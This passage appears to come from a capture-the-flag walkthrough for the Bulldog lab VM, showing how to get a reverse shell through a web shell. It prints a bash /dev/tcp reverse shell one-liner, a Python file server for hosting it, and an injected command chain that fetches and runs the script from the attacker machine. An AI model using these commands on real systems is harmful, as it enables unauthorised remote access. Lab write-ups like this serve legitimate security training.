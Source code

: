 
Here is an overview:
1. Save a single command that connects a reverse shell back to our Kali machine to a file - this is known as a script. Create it, but don't run it on Kali.
2. Use Kali as a web host, allowing Bulldog to download files from Kali.
3. Run commands in the web shell to *download* the script *to* Bulldog from Kali.
4. Run commands in the web shell to *execute* the script *on* Bulldog.
5. Bulldog begins talking, and Kali is set up to listen. Shell created.


I chose port number `1234` arbitarily because it is easy to remember. <br>
You can use any number you like, as long as it doesn't overlap with other protocols (like HTTP at port 80).
Pentesters like to use ports 1337 and 31337 for fun.
I like to use port numbers 51000 and higher since they are not often assigned to a standard protocol.


#### Shell Step 1 - Writing the Script

First, we need to create the script.<br>
This is as simple as writing the reverse shell command to a file that we give a `.sh` extension.

Run the following command on Kali in your working `~/bulldog` directory. <br>
Replace `KALI_IP` with Kali's Host-Only IP address - `192.168.56.xx`

`echo "bash -i >& /dev/tcp/KALI_IP/1234 0>&1" > script.sh`


#### Shell Step 2 - Hosting the Script

Next, we need to set up Kali as a file server that Bulldog can download from.
Kali contains a built in method for doing this using Python.
We just have to provide a port number.

Again, run this inside `~/bulldog`

`python -m SimpleHTTPServer 1234`

<br>
![A27](https://i.imgur.com/dxMLenc.png)
<br>

Let this run, then go to the browser to run step 3.

#### Shell Step 3 - Downloading the Script

The command we run through the webshell will need to download the script from Kali and make it executable.

We will need to break our command down into parts:
o	`pwd` to trick the if statement
o	`cd /tmp` to change to a directory where we have permission to download files
o	`wget  http://KALI_IP:1234/script.sh` to download to that directory
o	`chmod +x script.sh` to make the script executable

Run this in the webshell: 
`pwd && cd /tmp && wget http://KALI_IP:1234/script.sh && chmod +x script.sh`
